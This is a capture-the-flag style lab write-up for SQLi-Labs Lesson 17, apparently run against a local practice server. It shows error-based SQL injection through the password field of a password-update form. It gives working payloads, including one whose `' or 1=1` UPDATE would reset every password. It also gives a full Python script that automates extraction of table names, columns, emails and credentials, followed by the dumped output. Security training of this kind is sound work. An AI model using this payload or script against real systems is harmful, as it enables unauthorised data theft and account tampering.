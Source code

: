# Lesson-17

POST parameter UPDATE Query  injection

When we try just `admin` and `12345` we get **SUCCESSFULLY UPDATED YOUR PASSWORD**

When we try to inject in the username field It shows **BUG OFF YOU SILLY DUMB HACKER**

But when we try to inject in the password field with a valid username, we were able to do that

Putting username as `admin` and password as `'` gave us an error

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1
```

So the query must be like : 

```
UPDATE users SET password="" where username="admin"
```

So we have to use `'` to break the query and it shows errors so we have to get the password through errors

We give username : `admin` and password `' or 1=1 #` It gives : **SUCCESSFULLY UPDATED YOUR PASSWORD**

payload :

```
' or (select 1 from(select count(*),concat(0x3a,(select email_id from emails limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); #
```

So I created a script to do the work

```python
import requests


get_table = "(select table_name from information_schema.tables where table_schema= database() limit {0},1)"
get_column = "(select column_name from information_schema.columns where table_name = '{0}' limit {1},1)"
get_secret = "(select {0} from {1} limit {2},1)"
url = "http://localhost:1234/Less-17/"
session = requests.Session()

payload="' or (select 1 from(select count(*),concat(0x3a,{},0x3a,floor(rand()*2))a from information_schema.tables group by a)b); #"
table=""
for i in range(4):
    find=get_table.format(i)
    response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
    while('Subquery returns more than 1 row' in response.text):
        response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
    temp=response.text[1392:1460]
    table=temp[temp.index(':')+1:temp.rindex(':')]
    column=""
    print("From Table",table,": ")
    for j in range(4):
        find=get_column.format(table,j)
        response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
        while('Subquery returns more than 1 row' in response.text):
            response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
        temp=response.text[1392:1460]
        if(':' in temp):
            column=temp[temp.index(':')+1:temp.rindex(':')]
            content=""
            print("Column",column," - ",end='')
            for k in range(10):
                find=get_secret.format(column,table,k)
                response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
                while('Subquery returns more than 1 row' in response.text):
                    response = requests.post(url,data={'uname':'admin','passwd':payload.format(find)})
                temp=response.text[1392:1460]
                if(':' in temp):
                    content=temp[temp.index(':')+1:temp.rindex(':')]
                    print(content,end=",")
            print()
```

It gave me:

```
From Table emails : 
Column id  - 1,2,3,4,5,6,7,8,
Column email_id  - Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com,
From Table referers : 
Column id  - 
Column referer  - 
Column ip_address  - 
From Table uagents : 
Column id  - 
Column uagent  - 
Column ip_address  - 
Column username  - 
From Table users : 
Column id  - 1,2,3,4,5,6,7,8,9,10,
Column username  - Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,
Column password  - 1,1,1,1,1,1,1,1,1,1,
```
